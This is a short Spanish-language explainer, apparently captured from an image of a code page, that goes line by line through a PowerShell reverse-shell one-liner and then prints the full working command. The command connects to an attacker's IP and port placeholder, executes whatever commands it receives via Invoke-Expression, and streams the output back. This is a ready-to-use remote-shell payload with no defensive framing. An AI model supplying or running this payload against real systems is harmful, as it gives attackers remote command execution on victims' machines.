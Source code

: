 one-liner de PowerShell para establecer una reverse shell:
one-liner de PowerShell para establecer una reverse shell:

1. `powershell -c "`: Esto indica que se está ejecutando PowerShell y que se proporcionará un comando a través de la opción `-c`, que permite ejecutar un comando como argumento de la línea de comandos de PowerShell.
    
2. `"$client = New-Object System.Net.Sockets.TcpClient('tu_ip', tu_puerto);"`: Esta parte del código crea un objeto `TcpClient` de .NET para establecer una conexión TCP con la dirección IP y el puerto especificados del atacante. Reemplaza `'tu_ip'` y `'tu_puerto'` con la dirección IP y el puerto del atacante.
    
3. `"$stream = $client.GetStream();"`: Se obtiene el flujo de datos asociado con el cliente TCP recién creado.
    
4. `"[byte[]]$bytes = 0..65535|%{0};"`: Se inicializa un arreglo de bytes vacío con una longitud máxima de 65536 bytes. Esto se usará para almacenar los datos recibidos de la conexión.
    
5. `while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;`: Se inicia un bucle `while` que continúa leyendo datos del flujo hasta que no hay más datos disponibles.
    
6. `;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);`: Se convierten los bytes leídos en una cadena ASCII.
    
7. `;$sendback = (iex $data 2>&1 | Out-String );`: Se ejecuta el comando recibido (`$data`) utilizando `iex`, que es un alias para el cmdlet `Invoke-Expression`. Esto ejecuta el comando y captura su salida. El `2>&1` redirige los errores a la salida estándar. `Out-String` convierte la salida en una cadena para su posterior envío.
    
8. `;$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';`: Se crea una cadena que contiene la salida del comando ejecutado y la ruta del directorio actual de PowerShell, para simular un indicador de comando (`PS`).
    
9. `;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);`: Se convierte la cadena `$sendback2` en una secuencia de bytes utilizando codificación ASCII.
    
10. `;$stream.Write($sendbyte,0,$sendbyte.Length);`: Se envían los bytes al flujo de datos para que sean transmitidos al atacante.
    
11. `;$stream.Flush()};`: Se vacía el búfer de salida para asegurarse de que todos los datos se envíen al atacante.
    
12. `$client.Close()"`: Se cierra la conexión TCP con el atacante una vez que el bucle `while` ha terminado de ejecutarse.
```

powershell -c "$client = New-Object System.Net.Sockets.TcpClient('tu_ip', tu_puerto);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```
